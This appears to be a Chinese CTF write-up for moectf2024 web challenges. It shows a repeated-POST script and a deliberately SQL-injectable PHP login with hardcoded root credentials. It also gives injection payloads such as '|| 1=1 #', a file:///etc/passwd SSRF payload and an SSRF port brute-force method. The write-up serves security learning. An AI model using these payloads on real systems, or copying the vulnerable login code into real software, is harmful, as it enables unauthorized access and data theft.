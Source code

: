 ```yaml
---
title: moectf2024-Web-wp
toc: true
categories:
  - 技术
  - ctf
  - web
  - wp
date: 2024-10-10 22:15:08
tags: 
  - ctf
---
```


## web入门指北

phpstudy傻瓜式安装即可，鼓励大家自行搭建，然后附件源码放网站根目录（phpstudy默认一般是WWW），注意删除根目录下的index.php, 覆盖index.html, 因为默认配置访问根目录（GET /）index.php的优先级比index.html高，浏览器输入正确url访问即可回显flag

## ez_http

按要求做，做下一步时不要丢弃上一步的操作

![](/img1.png)

## ProveYourLove

前端阻止重复提交，发包绕过, exp：

```python
//exp.py
import requests

url = 'http://127.0.0.1:53785/questionnaire'

data = {
    'nickname': 'xiaotian',
    'target': '333',
    'message': 'eeeeeeeeee',
    'user_gender': 'male',
    'target_gender': 'male',
    'anonymous': 'false'
}

for i in range(300):
    response = requests.post(url, json=data)
    print('Status Code:', response.status_code)
    print('Response JSON:', response.json())
```

电院_Backend

后台常用robots协议防止爬虫爬取，访问robots.txt发现存在/admin/, 

```
User-agent: *
Disallow: /admin/
```

访问/admin/发现后台，附件给了login.php源码

```php
<?php
error_reporting(0);
session_start();

if($_POST){
    $verify_code = $_POST['verify_code'];

    // 验证验证码
    if (empty($verify_code) || $verify_code !== $_SESSION['captcha_code']) {
        echo json_encode(array('status' => 0,'info' => '验证码错误啦，再输入吧'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $email = $_POST['email'];
    if(!preg_match("/[a-zA-Z0-9]+@[a-zA-Z0-9]+\\.[a-zA-Z0-9]+/", $email)||preg_match("/or/i", $email)){
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $pwd = $_POST['pwd'];
    $pwd = md5($pwd);
    $conn = mysqli_connect("localhost","root","123456","xdsec",3306);

    $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);

    if($row){
        $_SESSION['admin_id'] = $row['id'];
        $_SESSION['admin_email'] = $row['email'];
        echo json_encode(array('status' => 1,'info' => '登陆成功，moectf{testflag}'));
    } else{
        echo json_encode(array('status' => 0,'info' => '管理员邮箱或密码错误'));
        unset($_SESSION['captcha_code']);
    }
}
?>
```

存在sql注入，登录成功即返回flag, 但是or被ban了，还有正则，验证码正常填，在email这里注入，密码随便填

绕过方法很多，简单列举

```sql
123@a.b' || 1=1 #
123@a.b' union select 1,2,3 -- 
```

## ImageCloud前置

经典的ssrf`payload: file:///etc/passwd`

## ImageCloud

随便传个文件，点击已上传文件查看，发现url中有`/image?url=http://localhost:5000/static/{filename}`

题目给了源码文件，5000端口映射在外网，但是app2.py运行在一个随机端口（5001-6000）需要借助ssrf爆破内网app2的端口

![](/img2.png)

可以通过暴露出来的服务打ssrf爆破app2的运行端口，从而借助ssrf窃取内网app2的图片

![](/img3.png)